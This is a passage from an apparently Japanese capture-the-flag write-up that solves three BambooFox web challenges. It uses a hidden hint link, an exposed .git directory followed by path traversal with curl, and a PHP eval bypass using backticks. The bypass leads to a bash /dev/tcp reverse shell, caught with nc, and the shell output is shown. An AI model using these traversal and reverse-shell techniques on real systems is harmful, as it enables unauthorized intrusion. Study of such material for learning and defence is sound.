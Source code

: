 コメントアウトされていて怪しい `/myfirstweb/index.php?op=nav&link=hint` にアクセスすると、`Flag is in ../flag.txt` というヒントが表示されました。`/flag.txt` にアクセスするとフラグが得られました。

```
BAMBOOFOX{0hhh_n0_s7up1d_li77l3_8ug}
```

## [Web 172] HAPPY (49 solves)
> I prefer Jekyll for building my blog. Please try to read /home/web/flags/flag1.txt.
> 
> (URL)
> 
> author: djosix

与えられた URL にアクセスすると、静的っぽいブログが表示されました。

試しに `/.git/config` にアクセスしてみると Git の設定ファイルが表示されました。`.git` ディレクトリをそのまま残しておりアクセスできるようなので [kost/dvcs-ripper](https://github.com/kost/dvcs-ripper) の `rip-git.pl` でダウンロードすると、なんとアセンブリで書かれた自作の Web サーバが出てきました。

なんとなく Path Traversal ができるだろうと考えて `curl --path-as-is "http://(省略)/../../../home/web/flags/flag1.txt"` を実行するとフラグが得られました。

```
BAMBOOFOX{251d19bd7cb60e72a3825d898bffcee5}
```

## [Web 294] Warmup (25 solves)
> This challenge is to increase your confidence.
> 
> (URL)
> 
> author: djosix

与えられた URL にアクセスすると、以下のような PHP コードが表示されました。

```php
<?php
    highlight_file(__FILE__);

    if ($x = @$_GET['x'])
        eval(substr($x, 0, 5));
```

GET パラメータとして与えられたユーザ入力を先頭 5 文字だけ実行してくれるようです。ぱっと見厳しそうですが、PHP には[バッククォートで囲んだ文字列を OS コマンドとして実行してくれる便利な機能](https://www.php.net/manual/ja/language.operators.execution.php)があります。ユーザ入力の全体が `$x` という変数に格納されているので、ユーザ入力の先頭 5 文字を以下のようにすれば全体を OS コマンドとして実行できるはずです。

```
`$x`;
```

この後ろに `bash -i >& /dev/tcp/(IP アドレス)/(ポート番号) 0>&1` のような OS コマンドを置いてリバースシェルを張ります。

```
$ nc -lvp 8000
︙
www-data@e20c154c561f:/var/www/html$ ls -la
ls -la
total 16
drwxr-xr-x 2  501 staff 4096 Dec 30 22:26 .
drwxr-xr-x 1 root root  4096 Nov 22 15:47 ..
-rw-r--r-- 1  501 staff   53 Dec 30 17:57 BAMBOOFOX{d22a508c497c1ba84fb3e8aab238a74e}
-rw-r--r-- 1  501 staff   96 Dec 30 17:54 index.php
www-data@e20c154c561f:/var/www/html$ 
```
